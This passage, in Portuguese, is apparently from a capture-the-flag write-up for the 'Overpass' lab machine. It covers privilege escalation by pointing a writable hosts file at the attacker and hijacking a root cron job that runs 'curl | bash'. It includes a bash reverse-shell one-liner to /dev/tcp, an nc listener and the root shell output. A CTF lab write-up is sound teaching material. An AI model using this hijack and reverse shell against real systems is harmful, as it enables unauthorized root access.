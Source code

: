 ```ssh
james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt
thm{***************************}
```

### PRIVILEGE ESCALATION
Junto a flag temos outro arquivo de notas que tem algo sobre um script automatizado, então olhando o crontab e encontramos algo interessante:
```cron
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Rodando um linpeas.sh conseguimos ver que o arquivo hosts é editavel para TODOS. Com isso, podemos substituir o IP localhost pelo nosso e criar uma shell reversa em nosso servidor web.

Lembrando de criando o arquivo no seguinte path: `/downloads/src/buildscript.sh`
```shell
#/bin/bash
/bin/bash -i >& /dev/tcp/<IP_LOCAL>/1234 0>&1
```

E rodamos o nosso server com python3
> python3 -m http.server 80

Em outro terminal esperamos a conexão e já encontramos a flag root.
> nc -nlvp 1234
```nc
listening on [any] 1234 ...
connect to [10.8.128.26] from (UNKNOWN) [10.10.216.187] 32946
bash: cannot set terminal process group (3169): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# whoami
whoami
root
```

Agora temos root e podemos pegar a flag do root :)